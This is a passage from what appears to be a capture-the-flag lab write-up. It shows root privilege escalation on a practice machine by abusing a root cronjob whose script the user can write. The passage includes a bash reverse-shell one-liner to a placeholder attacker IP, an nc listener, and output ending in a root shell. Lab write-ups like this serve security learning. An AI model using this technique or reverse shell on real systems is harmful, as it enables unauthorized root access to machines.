 ## 👑 Root Privilege Escalation

- OK, for this exploitation our path to root is through cronjobs. I located that file and checked permissions, we actually have permission to write to it!

  ```
  boring@kral4-PC:~$ cat /etc/crontab
  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.
  
  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
  
  # m h dom mon dow user  command
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  #
  * *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
  
  boring@kral4-PC:~$ find / -name .mysecretcronjob.sh 2>/dev/null
  /var/www/.mysecretcronjob.sh
  
  boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh 
  #!/bin/bash
  # i will run as root

  boring@kral4-PC:~$ ls -al /var/www/.mysecretcronjob.sh 
  -rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh
  ```
  
- Well, basically, this script does nothing lol. I got to root through reverse shell since I love them, but there's few other ways around it.
  Open the file with nano, add your reverse shell, save it and start a listener. After a minute you will get connection as root. I used classic bash one-liner but you can use any reverse shell you like.

  ```
  boring@kral4-PC:~$ nano /var/www/.mysecretcronjob.sh 

  bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.119.39] 41092
  bash: cannot set terminal process group (1485): Inappropriate ioctl for device
  bash: no job control in this shell
  root@kral4-PC:/var/www# whoami
  whoami
  root
  root@kral4-PC:/var/www# id
  id
  uid=0(root) gid=0(root) groups=0(root)
  ```
  